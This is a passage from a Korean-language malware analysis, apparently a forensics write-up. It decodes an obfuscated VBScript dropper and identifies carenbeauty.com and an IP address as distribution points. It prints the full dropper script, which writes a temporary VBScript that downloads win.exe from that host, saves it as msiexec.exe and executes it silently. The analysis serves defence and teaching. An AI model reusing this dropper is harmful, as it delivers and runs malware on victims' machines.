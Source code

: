 [그림 18. 복호화하기 위한 VBScript]

● 이를 파이썬 스크립트로 구현 후 실행 및 결과 확인

![image](https://github.com/user-attachments/assets/a4871ee6-2c36-4b1b-b8ac-7ac3eeac463c)

[그림 19. runurl 스크립트]

![image](https://github.com/user-attachments/assets/a2dfd513-5eed-48ab-ba6b-4aa84e2f93f6)

[그립 20. runrul 결과값]

● rechange 함수는 입력받은 문자열 k를 *를 기준으로 나눠 저장한 뒤 NB길이를 기준으로 0부터 증가하면서 NBWM에 NB - N 수행한 값을 유니코드 기준 문자로 변환한 뒤 계속 더하며 저장하고 NBWM 값을 리턴하는 함수

● 이를 파이썬 스크립트로 변경후 실행 및 결과 확인

![image](https://github.com/user-attachments/assets/21514cb3-6a95-40fb-9e8f-8322f6e77869)

[그림 21. rechange 스크립트]

![image](https://github.com/user-attachments/assets/2ae9a9c4-e37f-4fe2-bf61-82d3162a7c05)

[그림 22. rechange 결과값]

```javascript
<SCRIPT LANGUAGE="VBScript">
set shell =createobject("Shell.Application") 
shell.ShellExecute "cmd.exe", " /q /c echo iR=LCase(Wscript.Arguments(0)) > %TEMP%\\Uninstall.vbs & echo iL=LCase(Wscript.Arguments(1)) >> %TEMP%\\Uninstall.vbs & echo Set Post = CreateObject(replace(""M@s@xm@l@2.XM@LH@TTP@@@@@@@@@@@"",""@"","""")) >> %TEMP%\\Uninstall.vbs & echo Set Shell=CreateObject(replace(""00W0s0cri0pt0.S0he0l0l0"",""0"","""")) >> %TEMP%\\Uninstall.vbs & echo Post.Open ""GET"",iR,0 >> %TEMP%\\Uninstall.vbs & echo Post.Send() >> %TEMP%\\Uninstall.vbs & echo Set aGet=CreateObject(replace(""!A!DO!DB.St!re!am!"",""!"","""")) >> %TEMP%\\Uninstall.vbs & echo aGet.Mode=3 >> %TEMP%\\Uninstall.vbs & echo aGet.Type=1 >> %TEMP%\\Uninstall.vbs & echo aGet.Open() >> %TEMP%\\Uninstall.vbs & echo aGet.Write(Post.responseBody) >> %TEMP%\\Uninstall.vbs & echo aGet.SaveToFile iL,2 >> %TEMP%\\Uninstall.vbs & echo wscript.sleep 1000 >> %TEMP%\\Uninstall.vbs & echo Shell.Run(iL) >> %TEMP%\\Uninstall.vbs & cscript.exe %TEMP%\\Uninstall.vbs " & nbnburl & " C:\\msiexec.exe", "", "", 0
</SCRIPT>
```

● 분석해보면, Shell.Application 객체를 생성하여 Windows 쉘 조작 준비를 하고, cmd를 /q /c를 사용하여 명령 프롬프트에서 출력을 표시하지 않게 하고 실행 후 명령어를 처리하고 종료시킴

● echo 명령어로 Uninstall.vbs 파일을 만들며 cscript.exe로 실행

● nbnburl은 Unistall.vbs를 실행할 때 첫 번째 인자로 사용되며 이 값은 var nbnburl = "\"" + nburl + "\""이므로 ”nburl“, nburl의 경우 encode() 함수의 결과값을 저장하므로 결과적으로 nbnburl = `”http://carenbeauty.com/w3c/win.exe“`

● win.exe를 msiexec.exe로 파일명을 변경하여 저장 한 뒤 실행

● 즉, `http://carenbeauty.com/`로 방문하는 주소인 119.206.236.136과 악성 파일을 가지고 있는 `http://carenbeauty.com/`가 악성 코드 유포지라는 것을 알 수 있음

![image](https://github.com/user-attachments/assets/be608a29-dbd8-4fd3-a2ce-c20250ca2ced)

[그림 23. 유포지 확인 1.]
